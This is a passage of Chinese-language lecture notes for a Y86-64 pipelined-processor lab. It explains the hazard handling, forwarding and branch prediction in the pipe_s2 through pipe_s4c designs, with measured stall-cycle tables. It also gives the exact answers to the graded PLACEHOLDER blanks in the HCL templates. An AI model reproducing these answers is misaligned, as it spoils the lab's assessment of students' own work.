表中有三处要特别小心。第一是 ALU 两个输入的方向。ALU 计算的是 b op a，减法是 b − a。OPq 中 aluA 是 valA（rA 的值）、aluB 是 valB（rB 的值），算的是 rB − rA；iopq 要算 rB − V，所以 V 必须从 aluA 进去，rB 的值从 aluB 进去，这正是“aluA 像 irmovq、aluB 像 OPq”。如果反过来把 valC 接到 aluB，加法、与、异或仍然正确（它们可交换），只有 isubq 的结果符号相反，测试程序里没有 isubq 时就发现不了。第二是 alufun。原来的写法是 icode == OPQ : ifun，其他指令一律做加法，不改的话 iopq 的四种运算全部变成加法；这一行用的是 ==，要改成 in。第三是 set_cc：iopq 要设置条件码，Part C 中 iaddq $-1, %rdx 之后紧跟 jg，就靠这一点。
改完之后用 ./bin/grader arch seq_full -i 检查（-i 表示测试程序中含 iopq）。自己也可以写一个用到 iaddq、isubq、ixorq 的小程序，分别用 yis 和 ysim -A seq_full 运行，比较最终的寄存器和条件码，yis 的结果就是标准答案。关键路径没有变化，seq_full 的 ac 仍是 8。
3.2 八个架构总览#
pipe_s2 由 SEQ+ 改来，之后每一个架构只在前一个的基础上做一点改动。图 2 画出了各架构怎样把五个阶段的工作分配到流水线级上：F、D、E、M、W 是流水线寄存器的名字，方框覆盖的阶段就是这一级在一个周期里完成的工作。
图 2 各架构的流水线划分与关键路径长度 ac
每走一步，要问三个问题：哪一条长路径被切断了，ac 变成多少；哪些结果现在要晚一两个周期才能拿到；为此要加哪些暂停、气泡、转发或预测。表 10 给出了全貌，后面各节逐个讲解。
表 10 八个架构的改动、冒险处理与关键路径
| 架构 | 相对上一个架构的改动 | 冒险处理 | ac |
|---|---|---|---|
| pipe_s2 | F 只负责取指；其余工作都在 D | 无冒险：下一条 PC 用本周期 D 的结果 | 7 |
| pipe_s3a | 拆出 E（执行、访存、写回） | 数据冒险暂停；jXX、ret 一律暂停到 E | 6 |
| pipe_s3b | 从 E 转发 valE、valM | 不再有数据暂停 | 6 |
| pipe_s3c | 总是预测跳转 | 预测错误时取消 1 条指令 | 6 |
| pipe_s3d | 寄存器文件换成 reg_file（同周期先写后读） | 同 s3c | 6 |
| pipe_s4a | 拆出 M（访存、写回） | 加载/使用暂停；ret 等到 M | 6 |
| pipe_s4b | 跳转方向锁存进 M.cnd，在 M 级纠正 | 预测错误取消 2 条指令 | 4 |
| pipe_s4c | valP 并入 valA | 同 s4b | 4 |
| pipe_std | 拆出 W（写回），即教材的 PIPE | ret 等到 W | 4 |
为了把每种冒险的代价量化，本讲义写了几个只有三四条指令的小程序，在每个架构上测出周期数（方法见第 1.2 节）。一个 k 级流水线执行 n 条指令、没有任何冒险时，周期数是 n + k − 1（最后一条 halt 要走完所有的级）；实测周期数减去这个值，就是冒险带来的额外周期。测试程序如下（都从地址 0 开始，即 .pos 0）。dep 与 nodep、lu 与 nolu、ret 与 noret 是“有冒险”与“没有这种冒险的对照”，hit 与 mis 是条件跳转实际跳与不跳的两种情形：
# dep.ys：相邻数据相关 # nodep.ys：对照，没有相关
irmovq $1, %rax irmovq $1, %rax
addq %rax, %rbx addq %rcx, %rbx
halt halt
# lu.ys：加载/使用 # nolu.ys：对照，addq 不用 %rax
irmovq data, %rdx irmovq data, %rdx
mrmovq (%rdx), %rax mrmovq (%rdx), %rax
addq %rax, %rbx addq %rcx, %rbx
halt halt
.align 8 .align 8
data: .quad 5 data: .quad 5
# hit.ys：条件跳转，实际跳转 # mis.ys：条件跳转，实际不跳转
xorq %rax, %rax xorq %rax, %rax
je t jne t
irmovq $1, %rbx irmovq $1, %rbx
halt halt
t: irmovq $2, %rbx t: irmovq $2, %rbx
halt halt
# ret.ys：ret # noret.ys：对照，用 jmp 代替 ret
irmovq $0x100, %rsp irmovq $0x100, %rsp
call f call f
halt halt
f: ret f: irmovq $0, %rcx
.pos 0x100 jmp g
g: halt
.pos 0x100表 11 各种冒险的额外周期数（实测）
| 情形（测试程序的关键两条指令） | s2 | s3a | s3b | s3c/d | s4a | s4b/c | std |
|---|---|---|---|---|---|---|---|
| 相邻数据相关：irmovq → addq 用其结果 | 0 | 1 | 0 | 0 | 0 | 0 | 0 |
| 加载/使用：mrmovq → addq 用其结果 | 0 | 1 | 0 | 0 | 1 | 1 | 1 |
| 条件跳转，实际跳转 | 0 | 1 | 1 | 0 | 0 | 0 | 0 |
| 条件跳转，实际不跳转 | 0 | 1 | 1 | 1 | 1 | 2 | 2 |
| ret | 0 | 1 | 1 | 1 | 2 | 2 | 3 |
s3a 的加载/使用一行是“数据相关暂停”的特例：s3a 没有转发，任何相邻的相关都要停 1 个周期。ret 的测试程序是 irmovq $0x100, %rsp; call f; ... f: ret，在 s3a 上一共多出 3 个周期，其中 2 个是 irmovq → call、call → ret 两处对 %rsp 的数据相关，ret 本身只占 1 个。
怎样做一个填空架构#
s3a 到 s4c 七个架构都是填空题。拿到一个文件，第一步是找出所有的空：
grep -n PLACEHOLDER architectures/pipe_s3a.hcl空的位置虽然各不相同，但所在的信号只有几类：选择下一条取指地址的 f_pc；转发用的 d_valA、d_valB；条件传送用的 e_dstE；控制流水线的 stall、bubble 以及它们用到的冒险条件；个别架构还有 mem_data。对每一个空，按同样的顺序想三件事：
1. 这一行（或这个信号）要处理的是哪一种情形，牵涉的是哪一条指令；
2. 本周期这条指令在哪一级。这要看它需要的结果在哪一级产生，模板中已经给出的那一半往往就是线索，例如同一行写着 e_cnd，说明跳转方向是在 E 级算出的；
3. 根据它所在的级选字段：读流水线寄存器用大写加点（E.icode、M.valP），读这一级本周期算出的值用小写前缀（e_valM、m_valM），两者的级要一致。
判断“此刻在哪一级”最可靠的办法是画时间线。本部分的时间线图都按同一种画法：每一行是一条指令，每一列是一个周期，格子里写这条指令所在的级；带斜线的格子表示这一级在本周期被暂停，下一周期仍是同一条指令；灰色格子是插入的气泡；打叉的格子是被取消的指令。
3.3 pipe_s2：两级流水线#
s2 是完整给出的示例，没有空。它的 F 级只做一件事：算出下一条指令的地址 f_pc 并取指。D 级完成其余全部工作，相当于一个 SEQ+。f_pc 的写法是：
u64 f_pc = [
D.icode == CALL : D.valC; # call：目标地址就在指令里
D.icode == JX && cnd : D.valC; # 跳转成立：同一周期 D 级算出的 cnd
D.icode == RET : valM; # ret：同一周期 D 级从栈里读出的返回地址
1 : F.valP; # 其他：顺序执行
];关键在于 cnd 和 valM 都是本周期 D 级刚算出来的组合逻辑信号。上一条指令还在 D 级执行的同时，F 级就用它的结果算出了下一条的地址，所以 s2 没有任何冒险，表 11 中全是 0。代价是关键路径：从 D 寄存器出发，经过 reg_read → alu → reg_cc → cond → imem → ialign，6 个部件串联，ac = 7。和 SEQ 的 8 相比只少了 1：原来路径的起点 imem、ialign 被切到了 F 级，但跳转和 ret 又让路径从 D 级绕回了 imem。
后面每一个架构的 f_pc 都是这个形状，只是各行读的级不同。s2 的四行可以当作“标准答案的模板”：call 用 valC，跳转成立用 valC，ret 用 valM，其余用 valP；拆出新的级以后，只需要问 jXX 和 ret 的结果现在在哪一级产生。
3.4 pipe_s3a：拆出执行级，暂停处理一切冒险#
s3a 把 s2 的 D 级拆成两级：D 只译码、读寄存器，E 完成执行、访存和写回。路径 reg_read → alu 被流水线寄存器 E 切开。代价是：jXX 和 ret 的结果晚了一个周期才有；D 级读寄存器时，前一条指令可能还没有写回。文件中的空是：
25: U8_PLACEHOLDER == JX && e_cnd : U64_PLACEHOLDER;
28: U8_PLACEHOLDER == RET : e_valM;
215: U8_PLACEHOLDER == CMOVX && !BOOL_PLACEHOLDER : RNONE;
274: || U8_PLACEHOLDER != RNONE && BOOL_PLACEHOLDER;
276:bool f_stall = D.icode in { JX, RET } || BOOL_PLACEHOLDER;
282:bool d_stall = BOOL_PLACEHOLDER;第 25、28 行：跳转与 ret 的下一条地址#
这两行在 f_pc 中，模板给出的上下文是：
u64 f_pc = [
D.icode == CALL : D.valC;
U8_PLACEHOLDER == JX && e_cnd : U64_PLACEHOLDER; // Taken branch
U8_PLACEHOLDER == RET : e_valM; // Completion of RET
1 : F.valP;
];第 25 行处理“跳转成立”。同一行已经写了 e_cnd：跳转方向是 E 级的 cond 部件在本周期算出的。能用这个方向的，只能是此刻位于 E 级的那条 jXX，所以第一个空是 E.icode；跳转的目标是这条指令的 valC，它随指令一起流到了 E 寄存器中，第二个空是 E.valC。第 28 行同理：返回地址 e_valM 是 E 级本周期从栈中读出的，ret 此刻在 E 级，空是 E.icode。
很容易照着 s2 的写法填成 D.icode == JX && e_cnd : D.valC。这样写的问题要用时间线看（图 3（b））：jXX 在 D 级时，F 不知道下一条地址，只能暂停，并让 D 在下一周期变成气泡；下一周期 jXX 到了 E，e_cnd 才有意义，而此时 D 中是气泡，D.icode 是 NOP。于是 D.icode == JX 与“e_cnd 有效”永远不会同时成立，跳转永远不会发生。call 则不同，它的目标就是 valC，在 D 级就已经知道，所以第一行仍读 D。
图 3 pipe_s3a 的两种暂停：数据相关（a）与条件跳转（b）
第 215 行：条件传送不写寄存器#
u8 e_dstE = [
U8_PLACEHOLDER == CMOVX && !BOOL_PLACEHOLDER : RNONE;
1 : E.dstE;
];cmovXX 在条件不成立时不写目的寄存器，办法是把它的 dstE 改成 RNONE。“条件是否成立”由 cond 部件在 E 级算出，所以这一行判断的是 E 级的指令：E.icode == CMOVX && !e_cnd。这里的 e_dstE 是后面数据冒险判断和写回都要用的“真正的目的寄存器”，比 E.dstE 多考虑了 cmov 的条件。
第 274、276、282 行：数据冒险与暂停#
bool data_harzard = d_srcA != RNONE && d_srcA in { e_dstE, e_dstM }
|| U8_PLACEHOLDER != RNONE && BOOL_PLACEHOLDER;
bool f_stall = D.icode in { JX, RET } || BOOL_PLACEHOLDER;
bool d_stall = BOOL_PLACEHOLDER;
bool d_bubble = D.icode in { JX, RET } && !d_stall;
bool e_bubble = data_harzard;s3a 的 hardware 是 seq：reg_write 在周期末尾才把结果写进寄存器，同一周期里 reg_read 读到的仍是旧值；s3a 也没有转发。所以 D 级要读的寄存器恰好是 E 级指令的目的寄存器时，读到的一定是旧值，只能等一个周期。data_harzard 的前半已经写出了 srcA 的情形，后半是对称的 srcB：d_srcB != RNONE && d_srcB in { e_dstE, e_dstM }。
发现冒险之后怎么办？D 中的指令必须留在 D，等下一个周期 E 中的指令写回之后重新读寄存器，所以 d_stall = data_harzard。D 暂停时 F 必须一起暂停，否则 F 取到的下一条指令会覆盖 D 中正在等待的那一条，所以 f_stall 的空是 d_stall（写 data_harzard 也一样）。E 中的指令照常走完，它空出来的位置由已经给出的 e_bubble = data_harzard 填上气泡，以免 D 中的指令被执行两次。图 3（a）是这个过程：周期 3 中 addq 要读 %rax，irmovq 正在 E 级，于是 addq 在 D 中多停一个周期，E 级插入一个气泡。
有几个细节，测验中可能会问到。第一，d_srcB != RNONE 不能省：不读寄存器的指令 d_srcB 是 RNONE，而 E 中的指令也可能不写寄存器，e_dstE 同样是 RNONE，两者相等会造成无谓的暂停。第二，比较的对象是 e_dstE 而不是 E.dstE：条件不成立的 cmovXX 不写寄存器，不应当引起暂停。第三，不要套用教材 PIPE 的加载/使用条件 E.icode in { MRMOVQ, POPQ } && ...。那个条件成立的前提是有转发，其他指令的结果都能转发过来，只有读内存的值来不及；s3a 没有转发，任何写寄存器的指令都会造成冒险。第四，已经给出的 d_bubble 中有 && !d_stall：D 中的 ret 也可能遇到数据冒险（ret 要读 %rsp，而前一条 call、pushq 或 irmovq ..., %rsp 正在 E 级修改 %rsp），这时 ret 必须留在 D 中等待，不能被换成气泡，暂停优先于气泡。jXX 不读寄存器，不会遇到这种情况。
s3a 的 ac 为 6，最长路径是 alu → reg_cc → cond → imem → ialign：E 级的跳转方向直接决定了 F 级的取指地址。
3.5 pipe_s3b：转发#
E 级在本周期就能算出 valE、读出 valM，与其等它写进寄存器，不如直接把这两个值送回 D 级。s3b 的空是：
25: U8_PLACEHOLDER == JX && e_cnd : U64_PLACEHOLDER;
28: U8_PLACEHOLDER == RET : e_valM;
133: d_srcA == U8_PLACEHOLDER : e_valM;
134: d_srcA == U8_PLACEHOLDER : e_valE;
138: BOOL_PLACEHOLDER : U64_PLACEHOLDER;
139: BOOL_PLACEHOLDER : U64_PLACEHOLDER;
226: U8_PLACEHOLDER == CMOVX && !BOOL_PLACEHOLDER : RNONE;
282:bool f_stall = D.icode in { U8_PLACEHOLDER, U8_PLACEHOLDER };
290:bool d_bubble = D.icode in { U8_PLACEHOLDER, U8_PLACEHOLDER };第 25、28、226 行与 s3a 完全相同，s3b 没有改变跳转、ret 和 cmov 的处理，答案也相同。新的是转发和控制两部分。
第 133～139 行：转发#
u64 d_valA = [
d_srcA == U8_PLACEHOLDER : e_valM;
d_srcA == U8_PLACEHOLDER : e_valE;
1: reg_read.valA;
];
u64 d_valB = [
BOOL_PLACEHOLDER : U64_PLACEHOLDER;
BOOL_PLACEHOLDER : U64_PLACEHOLDER;
1: reg_read.valB;
];d_valA 的每一行是“如果 D 要读的寄存器 d_srcA 恰好是某条更新的指令要写的寄存器，就直接用那个值”。值已经写好了：e_valM 是 E 级读出的内存值，e_valE 是 E 级 ALU 的结果。它们分别要写进哪个寄存器？e_valM 写进 e_dstM，e_valE 写进 e_dstE，所以两个空依次是 e_dstM、e_dstE。转发的值和目的寄存器必须来自同一条指令的同一个“口”：若把 e_valE 配给 E.dstE，条件不成立的 cmov 会把一个不该写的值转发出去；若把 e_valM 配给 e_dstE，就把一个值送到了另一个寄存器的名下。
d_valB 的两行连条件都空着，照 d_valA 写出 srcB 的版本即可：d_srcB == e_dstM : e_valM 和 d_srcB == e_dstE : e_valE。为什么 e_valM 一行在前？同一条指令只有在 popq %rsp 时才会让 e_dstM 和 e_dstE 相同：它的 dstE 是 %rsp（栈指针加 8），dstM 也是 %rsp（从栈中读出的值）。按 ISA 的规定，结果是读出的值，所以 valM 优先。模板的注释也说明了这一点。
有了转发，s3b 不再有数据暂停，表 11 中“相邻数据相关”和“加载/使用”两行都是 0：访存也在 E 级，读出的值在同一个周期就能转发。
第 282、290 行：只剩控制冒险#
bool f_stall = D.icode in { U8_PLACEHOLDER, U8_PLACEHOLDER };
bool d_stall = false;
bool d_bubble = D.icode in { U8_PLACEHOLDER, U8_PLACEHOLDER };
bool e_bubble = false;d_stall 和 e_bubble 已经写成了 false，说明出题人认为 s3b 不再需要因为数据而暂停。剩下的只有 s3a 中 f_stall、d_bubble 的另一半：D 中是 jXX 或 ret 时，下一条地址要等它到 E 级才知道（第 25、28 行），所以两个空都是 JX, RET。每个 jXX 和 ret 仍要停 1 个周期，ac 不变，仍是 6。
3.6 pipe_s3c 与 pipe_s3d：分支预测#
s3b 中每个条件跳转都要停一个周期。s3c 采用“总是跳转”的预测：取到 jXX 时，直接把 valC 当作下一条指令的地址，存进流水线寄存器 F.pred_pc（这部分 f_pred_pc 的逻辑已经给出）；到 E 级发现预测错了，再改回 valP。空是：
25: U8_PLACEHOLDER == JX && !e_cnd : U64_PLACEHOLDER;
28: U8_PLACEHOLDER == RET : e_valM;
143～149: d_valA、d_valB 的转发（与 s3b 相同）
236: U8_PLACEHOLDER == CMOVX && !BOOL_PLACEHOLDER : RNONE;
295:bool branch_mispred = BOOL_PLACEHOLDER;
305:bool f_stall = BOOL_PLACEHOLDER && !BOOL_PLACEHOLDER;
316:bool d_bubble = BOOL_PLACEHOLDER && !BOOL_PLACEHOLDER;第 25、28 行：纠正预测错误#
u64 f_pc = [
U8_PLACEHOLDER == JX && !e_cnd : U64_PLACEHOLDER; // Branch misprediction
U8_PLACEHOLDER == RET : e_valM;
D.icode == CALL : D.valC;
1 : F.pred_pc;
];与 s3b 比，第 25 行的 e_cnd 变成了 !e_cnd：既然总是预测跳转，跳转成立时什么都不用做，F.pred_pc 已经是目标地址；需要处理的是“跳转不成立”，即预测错误。方向仍由 E 级算出，jXX 在 E 级，所以填 E.icode；正确的地址是顺序的下一条，即这条 jXX 的 valP。E 寄存器中有 valP 字段，填 E.valP。第 28 行仍是 E.icode。
注意这一次 call 排到了最后，模板的注释解释了原因：预测错误时，D 中是按预测取进来的错误路径上的指令，它可能恰好是 call；若 call 一行在前，就会跳到错误路径上 call 的目标。E 级的纠正针对的是更早的指令，必须优先。把 call 一行移到前面，grader 自带的 hz-call-at-mispred-target.ys 就会失败。
第 295、305、316 行：预测错误与 ret#
bool branch_mispred = BOOL_PLACEHOLDER;
bool ret_harzard = D.icode == RET;
// If both a branch misprediction and a RET hazard occur at the same time, since
// the jump instruction is executed before the RET, the RET should not have been
// executed, so a stall is not needed.
bool f_stall = BOOL_PLACEHOLDER && !BOOL_PLACEHOLDER;
bool d_stall = false;
bool d_bubble = BOOL_PLACEHOLDER && !BOOL_PLACEHOLDER;
bool e_bubble = branch_mispred;branch_mispred 就是 f_pc 第一行的条件：E.icode == JX && !e_cnd。预测错误时要做什么？图 4（a）：jXX 在 E 级，D 中是错误路径上的指令。本周期 f_pc 已经改成正确的地址，取到的指令下一周期进入 D；D 中那条错误指令不能进入 E，所以给 E 插入气泡，这就是已经给出的 e_bubble = branch_mispred。代价是 1 个周期，预测正确时没有代价。
图 4 pipe_s3c 的预测错误（a），以及错误路径上恰好是 ret 的情形（b）
ret 仍按 s3b 的方式处理：D 中是 ret 时暂停 F、下一周期给 D 插入气泡。f_stall 和 d_bubble 的形状是“A && !B”，注释说的是“预测错误和 ret 冒险同时发生时，不需要暂停”，所以 A 是要处理的情形 ret_harzard，B 是例外 branch_mispred：两个信号都是 ret_harzard && !branch_mispred。
什么时候两者会同时发生？图 4（b）：jXX 的目标处恰好是一条 ret，预测跳转把它取了进来。周期 3 中 jXX 在 E 级发现预测错误，D 中是这条错误路径上的 ret。这条 ret 马上就要被 E 级的气泡取消，它根本不该执行；而 F 本周期按 E.valP 取到的是正确的指令。如果此时按 ret 冒险暂停 F，F 寄存器就不会更新，正确的取指结果被丢掉了。grader 的 cjr.ys（条件跳转的目标处是 ret）测的就是这种情形，这也是教材 4.5.8 节讨论的“组合 A”。
取反的对象容易写错。例如写成 D.icode in { JX, RET } && !ret_harzard：ret_harzard 就是 D.icode == RET，这个式子化简后只剩 D.icode == JX，ret 之后不再暂停，jXX 反而每次都暂停。这样写，grader arch 在 abs-asum-cmov.ys 上失败，%rsp 期望 512（0x200）、实际 504（0x1f8），少弹了一次栈：absSum 的 ret 在 0x96，它后面直到 0x200 都是 0 字节，而 0x00 正是 halt 的编码。ret 在 D 级时 F 没有暂停，顺序取进了 0x97 处的“halt”，D 级也没有插入气泡，这条 halt 一路走到写回级，程序在 main 的 ret 执行之前就停了（sim/partB/s3c_wrongneg.txt）。读到带“同时发生”的注释时，先列出它涉及的信号，再分清哪个是要处理的、哪个是例外。
s3d：换用 hardware pipe#
s3d 的空与 s3c 完全相同，填法也相同，行为和周期数也相同。唯一的改动是把 hardware seq 换成 hardware pipe：两个部件 reg_read、reg_write 合并成一个 reg_file。区别在于 reg_file 在同一周期内先写后读，写回级本周期写入的值，译码级本周期就能读到。
可以用一个实验看出这个区别：把 d_valA、d_valB 中来自 E 级的两条转发都删掉，s3d 仍能通过 grader arch，而 s3c 在 hz-call-at-taken-fallthrough.ys 上就会失败。也就是说，在 hardware pipe 中，“从写回级转发”是多余的，由寄存器文件自己完成。这一步为后面做准备：从 s4a 开始，写回不再和执行在同一级。
3.7 pipe_s4a：拆出访存级#
s4a 把 E 级再拆开：E 只做执行，M 做访存和写回。这一步改变了两个结果产生的位置：内存读出的值（mrmovq、popq 的 valM、ret 的返回地址）从 E 级推迟到了 M 级。空最多的就是这个架构：
33: U8_PLACEHOLDER == JX && !e_cnd : U64_PLACEHOLDER;
36: U8_PLACEHOLDER == RET : U64_PLACEHOLDER;
143: d_srcA == U8_PLACEHOLDER : e_valE;
144: d_srcA == U8_PLACEHOLDER : U64_PLACEHOLDER;
148: BOOL_PLACEHOLDER : U64_PLACEHOLDER;
149: BOOL_PLACEHOLDER : U64_PLACEHOLDER;
238: U8_PLACEHOLDER == CMOVX && !BOOL_PLACEHOLDER : RNONE;
316:bool branch_mispred = BOOL_PLACEHOLDER;
325:bool ret_harzard = RET in { U8_PLACEHOLDER, U8_PLACEHOLDER };
337:bool f_stall = BOOL_PLACEHOLDER && !BOOL_PLACEHOLDER || BOOL_PLACEHOLDER;
343:bool d_stall = BOOL_PLACEHOLDER;
350:bool d_bubble = BOOL_PLACEHOLDER && !BOOL_PLACEHOLDER && !d_stall;
357:bool e_bubble = branch_mispred || BOOL_PLACEHOLDER;第 33、36 行：跳转在 E 级，ret 在 M 级#
执行仍在 E 级，跳转方向仍由 E 级算出，所以第 33 行与 s3c 相同：E.icode == JX && !e_cnd : E.valP，branch_mispred（第 316 行）也仍是 E.icode == JX && !e_cnd，第 238 行的 cmov 也仍是 E.icode == CMOVX && !e_cnd。
第 36 行连返回地址都空着，这是提示：返回地址不再是 e_valM。访存移到了 M 级，ret 要等走到 M 级才能从栈中读出返回地址，所以这一行是 M.icode == RET : m_valM。若仍写 E.icode == RET，ret 在 E 级时，m_valM 是排在它前面、此刻在 M 级的另一条指令（常常是气泡）的读出值，没有意义。
第 325 行：ret 冒险持续两个周期#
// If a RET instruction is detected in either the Decode or Execute stage, then
// the instruction in the current Fetch stage is invalid. ...
bool ret_harzard = RET in { U8_PLACEHOLDER, U8_PLACEHOLDER };ret 要到 M 级才给出下一条地址，那么它在 D 级和 E 级的两个周期里，F 都不知道该取哪里，都要暂停，注释也写明了“Decode or Execute”：RET in { D.icode, E.icode }。in 的左边可以是常量，右边是字段，这是一种简洁的写法。图 5（b）是 ret 的时间线：周期 2、3 各插入一个气泡，周期 4 ret 到了 M 级，f_pc 取 m_valM。ret 的代价从 1 变成 2。
图 5 pipe_s4a 的加载/使用暂停（a）与 ret（b）
第 143～149 行：转发的来源与优先级#
u64 d_valA = [
d_srcA == U8_PLACEHOLDER : e_valE;
d_srcA == U8_PLACEHOLDER : U64_PLACEHOLDER;
1 : reg_file.valA;
];现在本周期能拿到的新值有哪些？E 级只做执行，只有 ALU 的结果 e_valE，没有 e_valM 了；M 级有读出的 m_valM。按“值和目的寄存器配对”的原则，第一行填 e_dstE，第二行填 m_dstM : m_valM。M 级的 valE 呢？s4a 的写回也在 M 级，而 hardware pipe 的 reg_file 同周期先写后读（第 3.6 节），M 级本周期写回的值 D 级直接从寄存器文件就能读到，不需要转发。同理，m_valM 这一行其实也可以整行删去，删去之后 s4a 照样通过全部测试；模板留着它，与教材的写法保持一致。d_valB 的两行照 d_valA 写出 srcB 的版本。
两行的顺序有讲究。这一次模板把 e_valE 放在前面，与 s3b 中“e_valM 在前”不同。原因是这两个值现在来自两条不同的指令：E 级的指令比 M 级的更新，两者写同一个寄存器时，D 级的指令应当看到较新的那个值。下面这段程序可以说明：
popq %rax # %rax = 5，此时在 M 级
irmovq $1, %rax # %rax = 1，此时在 E 级
rrmovq %rax, %rcx # 应当得到 1rrmovq 在 D 级时，popq 在 M 级、irmovq 在 E 级，按模板的顺序得到 e_valE = 1，与 seq_std、s3c、s4b、std 的结果一致。如果把两行对调，m_valM 一行在前，就会得到 5。这个错误很隐蔽：周期数不变，grader arch 的全部测试程序也都能通过，只有这种“先 pop、紧接着用别的指令改写同一个寄存器、再读它”的程序才会暴露出来。s3b 中 valM 优先，是因为 e_valM、e_valE 来自同一条指令（popq %rsp）；这里两个值来自不同的指令，规则是“较新的优先”。两条规则并不矛盾，问的都是“按指令的执行顺序，最后写这个寄存器的是谁”。
第 337～357 行：加载/使用冒险与控制信号#
bool load_use_harzard = E.icode in { MRMOVQ, POPQ } && E.dstM in { d_srcA, d_srcB };
bool f_stall = BOOL_PLACEHOLDER && !BOOL_PLACEHOLDER || BOOL_PLACEHOLDER;
bool d_stall = BOOL_PLACEHOLDER;
// Actually, ret_harzard and d_stall cannot be true at the same time.
bool d_bubble = BOOL_PLACEHOLDER && !BOOL_PLACEHOLDER && !d_stall;
bool e_bubble = branch_mispred || BOOL_PLACEHOLDER;load_use_harzard 已经给出。mrmovq、popq 要到 M 级才读出数据，如果紧跟着的指令在 D 级就要用这个值，转发也来不及：本周期 mrmovq 还在 E 级，值还没有读出。只能让 D 中的指令等一个周期，等 mrmovq 到了 M 级，再通过 m_valM 转发（图 5（a））。处理方法与 s3a 的数据冒险一样：D、F 暂停，E 插入气泡。于是 d_stall = load_use_harzard，e_bubble 的空是 load_use_harzard。
f_stall 有三个空，形状是“A && !B || C”。前半与 s3c 相同，是 ret 冒险及其例外：ret_harzard && !branch_mispred；后半是加载/使用冒险，D 暂停时 F 也要暂停：load_use_harzard。d_bubble 的前半同样是 ret_harzard && !branch_mispred，最后的 && !d_stall 已经给出：暂停优先于气泡。
注释说“ret_harzard 和 d_stall 不可能同时为真”，这句话并不对。mrmovq 0(%rbx), %rsp 之后紧跟 ret，ret 在 D 级时既是 ret 冒险，又要读 mrmovq 正在加载的 %rsp，是加载/使用冒险。好在 s4a 的模板已经写了 && !d_stall，按模板填就不会出错；到了 s4b，这句注释会把人引向错误的填法（第 3.8 节）。
条件跳转仍在 E 级判断，预测错误的代价仍是 1，cond → imem 这条路径也还在，ac 仍是 6。s4a 只是为 s4b 做准备。
3.8 pipe_s4b 与 pipe_s4c：在 M 级纠正预测错误#
s4b 要切断什么#
s4a 的关键路径是 alu → reg_cc → cond → imem → ialign，原因是 E 级算出的跳转方向在同一周期就用来选择取指地址。s4b 在 M 寄存器中新增了一个字段 cnd，把 E 级算出的方向锁存进去，到下一个周期 jXX 进入 M 级时再用它纠正。这样 cond 的输出只进入 M 寄存器，不再连到 imem。s4b 的空是：
33: U8_PLACEHOLDER == JX && !e_cnd : U64_PLACEHOLDER;
36: U8_PLACEHOLDER == RET : U64_PLACEHOLDER;
141～147: d_valA、d_valB 的转发（与 s4a 相同）
236: U8_PLACEHOLDER == CMOVX && !BOOL_PLACEHOLDER : RNONE;
314:bool branch_mispred = BOOL_PLACEHOLDER;
323:bool ret_harzard = RET in { U8_PLACEHOLDER, U8_PLACEHOLDER };
335:bool f_stall = BOOL_PLACEHOLDER || BOOL_PLACEHOLDER;
341:bool d_stall = BOOL_PLACEHOLDER;
346:bool d_bubble = BOOL_PLACEHOLDER || BOOL_PLACEHOLDER && !d_stall;
353:bool e_bubble = branch_mispred || BOOL_PLACEHOLDER;转发、cmov、ret（第 36 行仍是 M.icode == RET : m_valM，ret_harzard 仍是 RET in { D.icode, E.icode }）、加载/使用冒险都与 s4a 相同。不同的只有预测错误的处理，而这正是 s4b 的全部意义。
第 33 行：模板中的 !e_cnd 要改#
⚠ 模板第 33 行的笔误
s4b、s4c 模板的第 33 行写的是 U8_PLACEHOLDER == JX && !e_cnd : U64_PLACEHOLDER，其中的 !e_cnd 是从 s4a 原样留下来的，不是空，但必须改成 !M.cnd。正确的一行是 M.icode == JX && !M.cnd : M.valP（s4c 中是 M.valA，见下文）。只填两个空、保留 !e_cnd，预测错误永远得不到纠正：grader 的 prog9.ys 中有一条不跳转的 jne，其目标处是一个非法的指令字节，处理器沿错误路径执行到这里就出错；别的程序也可能沿错误路径一直执行到超时。重新下载的 handout 中这一行仍未修正。
为什么必须改？图 6（a）：周期 3 中 jXX 在 E 级发现预测错误，周期 4 中它到了 M 级，这时才在 f_pc 中纠正。纠正时，E 级是什么？是周期 3 插入的气泡。气泡的 ifun 是 0，cond 把它当作无条件跳转，e_cnd 恒为真，!e_cnd 恒为假，这一行永远不会成立，预测错误永远得不到纠正。jXX 自己的方向在周期 3 已经锁存进了 M.cnd，纠正时要读的正是它。另一方面，若把这一行改回 E 级（E.icode == JX && !e_cnd : E.valP），s4b 就退回了 s4a，cond 又连到 imem，ac 回到 6，加 M.cnd 就白做了。
图 6 pipe_s4b 的预测错误（a），以及加载/使用与 ret 冒险同时出现的 ret-hazard.ys（b）
第 314 行：发现仍在 E 级#
既然纠正移到了 M 级，branch_mispred 是不是也该改成 M.icode == JX && !M.cnd？不应该。branch_mispred 的作用是取消错误路径上的指令，越早越好。看图 6（a）：周期 3 中 jXX 在 E 级，D 中和 F 中各有一条错误路径上的指令。如果等到周期 4 才发现，D 中那条错误指令已经进入了 E 级，再插气泡就晚了，它可能已经改了条件码，下一周期还会写内存或寄存器。所以“发现”仍在 E 级：branch_mispred = E.icode == JX && !e_cnd。这样做并不会把 cond 连到 imem：branch_mispred 只控制 D、E 两级寄存器的气泡，不参与选择取指地址。
于是 s4b 的预测错误分成两个时刻：E 级发现，当周期给 D、E 都插入气泡，取消两条错误指令；下一周期在 M 级纠正取指地址。代价是 2 个周期，比 s4a 多 1 个。
第 335～353 行：控制信号#
// Unlike in `pipe_s4a`, here we do not need to consider the case of branch
// misprediction (since in the next cycle, Fetch will always get the `f_pc`
// from `M.valP`).
bool f_stall = BOOL_PLACEHOLDER || BOOL_PLACEHOLDER;
bool d_stall = BOOL_PLACEHOLDER;
// Unlike in `pipe_s4a`, when a branch misprediction occurs, we directly insert
// a bubble, because the instruction in the Fetch stage at that point is invalid.
// Actually, ret_harzard and d_stall cannot be true at the same time.
bool d_bubble = BOOL_PLACEHOLDER || BOOL_PLACEHOLDER && !d_stall;
bool e_bubble = branch_mispred || BOOL_PLACEHOLDER;d_stall 和 e_bubble 的空与 s4a 相同：load_use_harzard。
f_stall 的注释说，这里不必再考虑预测错误。s4a 中要写 !branch_mispred，是因为预测错误的那个周期 F 要取正确的指令，不能暂停；s4b 中，那个周期 F 取到的本来就是错误路径上的指令（周期 3 的“T 处第 2 条”），暂停与否都无所谓，下一周期 f_pc 由 M.valP 决定，与 F 寄存器的内容无关。所以 f_stall = ret_harzard || load_use_harzard。
